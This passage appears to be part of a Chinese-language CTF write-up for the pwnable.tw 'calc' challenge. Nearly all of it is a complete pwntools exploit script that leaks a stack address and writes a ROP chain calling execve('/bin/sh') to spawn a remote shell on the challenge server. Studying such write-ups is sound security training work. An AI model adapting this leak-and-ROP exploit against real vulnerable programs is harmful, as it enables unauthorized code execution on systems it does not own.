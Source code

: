 ![image-20220408163317703](pwnabletw.assets/image-20220408163317703.png)

```
bin_sh = ebp+4
```

完整exp：

```python
from pwn import*
proc = './calc'
ip = 'chall.pwnable.tw' 
port = 10100
#p = process(proc)
p = remote(ip,port)
context.log_level = "Debug"
p.recvuntil('=== Welcome to SECPROG calculator ===\n')
off = 361
p.sendline("+"+str(360)) 
ebp = int(p.recvline(),10) # leak ebp
bin_sh = ebp + 4

'''
0x0805c34b : pop eax ; ret
0x080701d1 : pop ecx ; pop ebx ; ret
0x080701aa : pop edx ; ret
0x08049a21 : int 0x80
'''
#ROP_chain
payload = [0x0805c34b,0xb,0x080701aa,0,0x080701d1,0,bin_sh,0x08049a21,0x6e69622f,0x0068732f]


for i in range(len(payload)):
    p.sendline("+"+str(off+i))
    num = int(p.recvline())

    diff = payload[i] - num
    if diff > 0 :
        p.sendline("+"+str(off+i)+"+"+str(diff))
    else:
        p.sendline("+"+str(off+i)+str(diff))
    p.recvline()

#gdb.attach(p)

p.sendline()
p.interactive()
```
